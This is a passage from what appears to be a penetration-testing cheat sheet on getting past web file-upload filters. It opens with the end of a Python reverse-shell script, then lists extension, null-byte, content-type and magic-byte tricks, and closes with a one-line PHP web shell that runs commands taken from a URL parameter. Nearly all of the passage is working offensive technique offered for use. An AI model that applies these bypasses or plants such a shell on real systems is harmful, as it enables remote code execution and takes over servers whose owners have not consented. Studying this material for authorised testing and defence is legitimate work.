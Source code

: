 ```python
    pty.spawn(shell)
    s.close()

if __name__ == '__main__':
    main()
```

**Bypass Filters**

**changing file extension** \[1] Common extensions to bypass PHP restrictions

```
png,jpg,pht, phpt, phtml, php3, php4, php5, php6
```

\#Example: shell.png.php Common extensions to bypass Perl restrictions

```
.pl, .pm, .cgi, .lib
```

Common extensions to bypass JSP restrictions

```
.jsp, .jspx, .jsw, .jsv, and .jspf
```

Common extensions to bypass Cold Fusion restrictions

```
.cfm, .cfml, .cfc, .dbm
```

\[2] Another method of changing extensions is by appending `#` after the original extension and then adding the required extension. #Example: shell.php#a.png \[3] Another method of changing extensions is by using null bytes #Example shell.php%00.gif **changing content type and keeping file extension to fit the allowed extensions** Example: intercept a burp request and change content type to this if your payload is in php

```
content-type:x-text/php
filename=shell.png
```

**changing the magic number**

```
root@kali: hexyl -n 256 file.php

root@kali: nano file.php
```

append GIF87a to the first line of the file and it will become JIF **Using php zip filters** We use PHP zip filters when the file's name that we upload to get RCE changes or is controlled by the web application. This means that if you uploade a file named \[shell] the web application will rename it to any arbitrary name therefore we will not be able to call the RCE shell since the name of the file changes. #Lets take the below payload

```php
<?php echo system($_GET['cmd']); ?>
```
